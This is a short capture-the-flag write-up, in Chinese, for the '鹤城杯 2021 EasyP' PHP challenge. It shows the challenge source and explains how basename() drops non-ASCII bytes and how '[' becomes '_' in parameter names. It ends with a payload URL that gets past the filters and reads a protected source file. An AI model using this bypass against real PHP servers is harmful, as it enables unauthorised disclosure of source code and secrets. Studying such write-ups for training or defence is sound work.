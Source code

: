 # 鹤城杯 2021EasyP

```php
<?php
include 'utils.php';

if (isset($_POST['guess'])) {
    $guess = (string) $_POST['guess'];
    if ($guess === $secret) {
        $message = 'Congratulations! The flag is: ' . $flag;
    } else {
        $message = 'Wrong. Try Again';
    }
}

if (preg_match('/utils\.php\/*$/i', $_SERVER['PHP_SELF'])) {
    exit("hacker :)");
}

if (preg_match('/show_source/', $_SERVER['REQUEST_URI'])){
    exit("hacker :)");
}

if (isset($_GET['show_source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
    exit();
}else{
    show_source(__FILE__);
}
?> 
```

例如：http://127.0.0.1/phplab/?show[source=1

`$_SERVER['PHP_SELF'])`返回/phplab/index.php，返回当前运行脚本

`$_SERVER['REQUEST_URI'])`返回/phplab/?show[source=1，返回路径和参数

```
basename函数，返回路径中的文件名部分，即返回最后一个/后面的字符
```

其绕过原理为：在使用默认语言环境设置时，`basename()` 会删除文件名开头的非 ASCII 字符和中文

payload

```
index.php/utils.php/%ff?show[source=1
```

```
. [ 空格 +这四个在传参时会被解析成_
```

